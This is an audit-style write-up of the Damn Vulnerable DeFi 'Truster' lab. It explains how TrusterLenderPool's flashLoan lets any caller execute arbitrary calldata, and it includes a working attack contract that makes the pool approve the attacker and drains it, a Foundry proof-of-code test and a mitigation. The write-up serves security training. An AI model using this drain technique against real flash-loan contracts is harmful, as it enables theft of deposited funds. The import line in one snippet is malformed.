 ## Critical Severity Issues

### [C-1] Arbitrary External Call Injection `TrusterLenderPool::flashLoan`

**Description**: The `TrusterLenderPool` protocol provides flash loans to anyone. A malicious user can exploit the `target.functionCall(data)` by passing crafted calldata that invokes the `approve` function of the DVT token. This allows the attacker to approve themselves to spend all tokens held by the pool and subsequently drain the entire balance.

```javascript
function flashLoan(uint256 amount, address borrower, address target, bytes calldata data) external nonReentrant returns (bool) {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);

@>      target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore) {
            revert RepayFailed();
        }

        return true;
    }
```

**Impact**: Malicious user takes the advantage of external call and make a call data which under the hood approve all the target tokens of `TrusterLenderPool`.

Attack Contract:

```javascript

 {DamnValuableToken} from "../src/DamnValuableToken.sol";

contract Target {

    DamnValuableToken public token;
    TrusterLenderPool public pool;

    address public attacker;

    constructor(
        DamnValuableToken _token,
        TrusterLenderPool _pool,
        address _attacker
    ) {
        token = _token;
        pool = _pool;
        attacker = _attacker;
    }

    function attack() external {
     uint256 poolBalance = token.balanceOf(address(pool)); // 1 million DVTs
      
      pool.flashLoan(
            0,
            address(this),
            address(token),
@>         abi.encodeWithSelector(token.approve.selector, address(this), poolBalance)
        );

        // Drain the funds
        token.transferFrom(address(pool), attacker, poolBalance);
    }
}

```

**Proof of Concept**:

1. Attacker passes malicious calldata.
2. The calldata contains the `approve` selector, granting the attacker permission to spend all of the pool's tokens.
3. Calls `flashLoan` with `amount = 0` to bypass repayment logic.
4. Executes `transferFrom` to drain all tokens from the pool.
5. Pool loses all funds.

**Proof of Code**:

```javascript
function testStealAllPoolFunds() public {
        console2.log( "Pool balance before : ", token.balanceOf(address(trusterLenderPool))); // 1000000000000000000000000
        console2.log( "Attacker balance before : ", token.balanceOf(target.attacker())); // 0

        target.attack(); // attack

        console2.log("Pool balance After : ", token.balanceOf(address(trusterLenderPool))); // 0
        console2.log("Target balance After : ", token.balanceOf(target.attacker())); // 1000000000000000000000000
    }
```

**Recommended Mitigation**: Restrict which contract addresses and function selectors can be called via the `target.functionCall(data)` pattern. Avoid allowing arbitrary low-level calls from user input. Consider removing this flexibility entirely if not strictly necessary.
